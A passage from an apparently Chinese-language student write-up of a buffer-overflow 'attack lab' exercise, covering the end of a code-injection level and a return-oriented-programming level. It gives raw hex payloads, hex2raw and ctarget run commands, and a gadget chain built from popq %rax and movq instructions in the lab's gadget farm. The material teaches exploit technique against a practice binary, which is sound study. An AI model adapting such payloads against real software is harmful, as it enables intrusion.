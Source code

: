 ```
00 00 00 00
00 00 00 00
b8 b7 61 55
00 00 00 00
37 37 63 33 
39 34 34 66
```

保存为3.txt，同样用hex2raw处理之后运行
```
./hex2raw < 3.txt >3.bin
./ctarget -qi 3.bin
```
第三关就过了。

# ROP Attack

## phase4

从这关开始限制了可执行代码的区域，所以自己编写程序已经行不通了。但是实验已经设置了一个gadget farm，在这些代码中从某些特殊的位置开始执行，会有完全不同的效果。将多个gadget联合起来使用，就相当于执行了一条条汇编指令。 具体的实现实验说明上有写，网上一些博客也写的非常清楚，所以我略过说明直接开始做题。

要把cookie放到%rdi，一样考虑从栈popq到寄存器，所以在gadget farm查找popq %rdi的命令段。

然后就会发现找不到。

所以考虑迂回战术，先popq到另外的寄存器，然后movq到%rdi。这里正好有如下实现方式

```
popq %rax
movq %rax, %rdi
```
```
0000000000401b7c <setval_125>:
  401b7c:	c7 07 11 09 58 90    	movl   $0x90580911,(%rdi)
  401b82:	c3                   	retq   
```
例如以上代码，58表示popq %rax，90是nop，c3是ret，就完成了汇编目的的第一行，所以起始代码位置应该是0x401b80。

寻找另一代码的地址，可以得到如下字符串

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
80 1b 40 00 00 00 00 00
4f 94 c3 77 00 00 00 00
6a 1b 40 00 00 00 00 00
f6 18 40 00 00 00 00 00
```
